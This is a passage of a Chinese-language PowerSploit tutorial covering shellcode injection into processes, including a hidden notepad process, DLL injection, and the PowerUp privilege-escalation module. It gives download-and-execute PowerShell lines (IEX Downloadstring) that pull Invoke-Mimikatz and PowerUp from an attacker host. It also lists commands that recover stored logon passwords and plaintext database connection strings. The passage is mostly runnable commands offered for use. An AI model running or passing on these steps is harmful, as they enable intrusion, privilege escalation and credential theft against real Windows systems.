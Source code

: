 ![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYaYN2UoTtMib3vJdCyDYqHd5UPnOr8PWyqU8Yz3oDiakUybBuxmh49DnOQ/640?wx_fmt=png)

注入到该进程, 不成功就尝试别的进程。  

```
PS C:> Invole-ShellCode -Shellcode -Force $buf -ProcessID 496
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSPdYRemL2kHadlxTGA2jVYayJONJXAdmcibF1SDGdJticbMNL4sBqDm3sBzpkpb9PJvCFQT2QG4HdWg/640?wx_fmt=png)

可以开启一个隐藏进程进行注入  

```
PS C:> start-process C:\windows\system32\notepad.exe -WindowStyle Hidden
PS C:> Get-Process Notepad
```

Invoke-Dllinjection

顾名思义注入 dll，但这个就需要将 dll 文件上传到目标机了，文件落地比较危险。

先加载该模块

```
PS C:>  IEX(New-Object net.webclient).Downloadstring('http://192.168.10.1/ps/Exfiltration/Invoke-Mimikatz.ps1')
```

将 dll 文件上传主机后，进行注入到程序

```
PS C:>  Invoke-DllInjection -Dll ./test.dll -ProcessId 8787
```

Privesc 模块  

提权模块，常用的就是使用 Get-System 提升管理员权限  

PowerUP

用来寻找目标主机 windows 服务漏洞进行提权的使用脚本

```
PS C:>  IEX(New-Object net.webclient).Downloadstring('http://192.168.10.1/PowerSploit/Privesc/PowerUp.ps1')
```

这个脚本很多命令可以用啊

```
Invoke-AllChecks #自动执行PowerUp下所有的脚本来检查目标主机 
Find-PathDllHijack #检查当前%PATH%的哪些目录是用户可以写入的
Get-ApplicationHost #利用系统上的application.config文件恢复加密过的应用池和虚拟目录的密码
Get-RegistryAlwaysInstallElevated #检测AlwaysInstallElevated注册表是否被设置,如果被设置,意味着MSI文件是以SYSTEM权限运行的
Get-RegistryAutoLogon #检测windows注册表的AutoAdminLogon项有没有被设置,可查询被设置默认的用户名密码
Get-ServiceDetail  –ServiceName DHCP#返回某服务的信息
Get-ServiceFilePermission #检测当前用户能够在哪些服务的目录写入相关的可执行文件(可以通过这些文件提权)
Test-ServiceDaclPermission #检测所有可用的服务,并尝试对这些打开的服务进行修改(若可修改,返回服务对象)
Get-UnattendedInstallFile #检查以下路径,查找是否存在这些文件(文件中可能包含部署凭据)
Get-ServiceUnquoted #用于检查服务路径,返回包含空格但不带引号的服务路径
Get-ModifiableRegistryAutoRun #检查开机自启动的应用程序路径和注册表键值,返回当前用户可修改的程序路径
Get-ModifiableScheduledTaskFile #返回当前用户能够修改的计划任务程序的名称和路径
Get-Webconfig #返回当前服务器上web.config文件中的数据库连接字符串的明文
```
